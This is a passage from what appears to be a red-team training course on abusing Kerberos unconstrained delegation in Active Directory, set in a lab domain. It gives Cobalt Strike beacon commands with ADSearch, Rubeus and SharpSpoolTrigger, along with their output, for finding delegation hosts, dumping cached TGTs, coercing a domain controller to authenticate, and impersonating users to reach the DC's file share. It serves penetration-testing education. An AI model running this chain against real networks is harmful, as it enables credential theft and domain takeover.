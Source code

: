 Delegation allows a user or machine to act on behalf of another user to another service.  A common implementation of this is where a user authenticates to a front-end web application that serves a back-end database.  The front-end application needs to authenticate to the back-end database (using Kerberos) as the authenticated user.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/c2a/6cc/d95/unconstrained.png)

  

We know how a user performs Kerberos authentication to the Web Server, but how can the Web Server authenticate to the DB and perform actions as the user?  Unconstrained Delegation was the first solution to this problem, introduced in Windows 2000.  When configured on a computer, the KDC includes a copy of the user's TGT inside the TGS.  In this example, when the user accesses the Web Server, it extracts the user's TGT from the TGS and caches it in memory.  When the Web Server needs to access the DB Server on behalf of that user, it uses the user’s TGT to request a TGS for the database service.

An interesting aspect to unconstrained delegation is that it will cache the user’s TGT regardless of which service is being accessed by the user. So, if an admin accesses a file share or any other service on the machine that uses Kerberos, their TGT will be cached.  If we can compromise a machine with unconstrained delegation, we can extract any TGTs from its memory and use them to impersonate the users against other services in the domain.

This query will return all computers that are permitted for unconstrained delegation.
```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname

[*] TOTAL NUMBER OF SEARCH RESULTS: 2
	[+] samaccountname : DC-2$
	[+] dnshostname    : dc-2.dev.cyberbotic.io
	
	[+] samaccountname : WEB$
	[+] dnshostname    : web.dev.cyberbotic.io
```

  Domain Controllers are always permitted for unconstrained delegation.

  

If we compromise WEB$ and wait or socially engineer a privileged user to interact with it, we can steal their cached TGT.  Interaction can be via any Kerberos service, so something as simple as `dir \\web\c$` is enough.  Rubeus `triage` will show all the tickets that are currently cached.  TGTs can be identified by the krbtgt service.
```
beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

 --------------------------------------------------------------------------------------------------------------- 
 | LUID     | UserName                  | Service                                       | EndTime              |
 --------------------------------------------------------------------------------------------------------------- 
 | 0x14794e | nlamb @ DEV.CYBERBOTIC.IO | krbtgt/DEV.CYBERBOTIC.IO                      | 10/4/2022 9:35:38 PM |
```

  There is a scheduled task running on Workstation 1 as nlamb that will interact with WEB$ every 5 minutes.  If the ticket is not there, wait a minute or so and try again.

  

We can simply extract this TGT and leverage it via a new logon session.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x14794e /nowrap
	
doIFwj [...snip...] MuSU8=

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFwj[...]MuSU8=

[*] Using DEV\nlamb:FakePass

[*] Showing process : False
[*] Username        : nlamb
[*] Domain          : DEV
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 1540
[+] Ticket successfully imported!
[+] LUID            : 0x3206fb

beacon> steal_token 1540

beacon> ls \\dc-2.dev.cyberbotic.io\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 15:44:08   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     08/15/2022 16:09:55   inetpub
          dir     05/08/2021 08:20:24   PerfLogs
          dir     08/24/2022 10:51:51   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     09/05/2022 17:17:48   ProgramData
          dir     08/15/2022 15:23:23   Recovery
          dir     08/16/2022 12:37:38   Shares
          dir     09/05/2022 12:03:43   System Volume Information
          dir     08/15/2022 15:24:39   Users
          dir     09/05/2022 17:09:56   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 1kb      fil     08/15/2022 16:16:13   dc-2.dev.cyberbotic.io_sub-ca.req
 12kb     fil     09/05/2022 07:25:58   DumpStack.log
 12kb     fil     09/06/2022 09:04:41   DumpStack.log.tmp
 384mb    fil     09/06/2022 09:04:41   pagefile.sys
```
  
We can also obtain TGTs for computer accounts by forcing them to authenticate remotely to this machine.  As mentioned in the NTLM Relaying module of the Pivoting chapter, several tools exist to facilitate this.  This time, we will force the domain controller to authenticate to the web server to steal its TGT.

We will also utilise Rubeus' `monitor` command.  This will drop into loop and continuously monitor for and extract new TGT as they get cached.  It's a superior strategy when compared to running triage manually because there's little chance of us not seeing or missing a ticket.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap

[*] Action: TGT Monitoring
[*] Monitoring every 10 seconds for new TGTs
```
  

Next, run SharpSpoolTrigger.
```
beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe dc-2.dev.cyberbotic.io web.dev.cyberbotic.io
```

Where:

- DC-2 is the "target".
- WEB is the "listener".

  

Rubeus will then capture the ticket.
```
[*] 9/6/2022 2:44:52 PM UTC - Found new TGT:

  User                  :  DC-2$@DEV.CYBERBOTIC.IO
  StartTime             :  9/6/2022 9:06:14 AM
  EndTime               :  9/6/2022 7:06:14 PM
  RenewTill             :  9/13/2022 9:06:14 AM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

doIFuj[...]lDLklP
```
  

Machine TGTs are leveraged slightly differently - see the **S4U2Self Abuse** module.  To stop Rubeus, use the `jobs` and `jobkill` commands.
